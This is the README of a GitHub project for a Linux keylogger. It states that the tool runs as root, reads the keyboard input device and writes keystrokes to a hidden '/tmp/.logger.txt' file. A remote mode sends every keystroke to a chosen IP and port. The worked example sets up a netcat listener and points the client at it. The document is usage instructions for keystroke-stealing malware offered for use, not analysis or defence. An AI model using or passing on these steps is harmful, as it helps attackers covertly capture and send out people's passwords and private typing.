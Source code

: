 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d: input device (if not specified, the default device is '/dev/input/by-path/***kbd')<br>
	-o: output file. (It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt')<br>
	-m remote -a <IP-ADDR> -p <PORT>: it sends all the keystrokes on the remote server located at <IP-ADDR:PORT><br>
<br>
EXAMPLE<br>
Server$ nc lvp 8888 > logger.txt<br><br>
Client#./slk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)
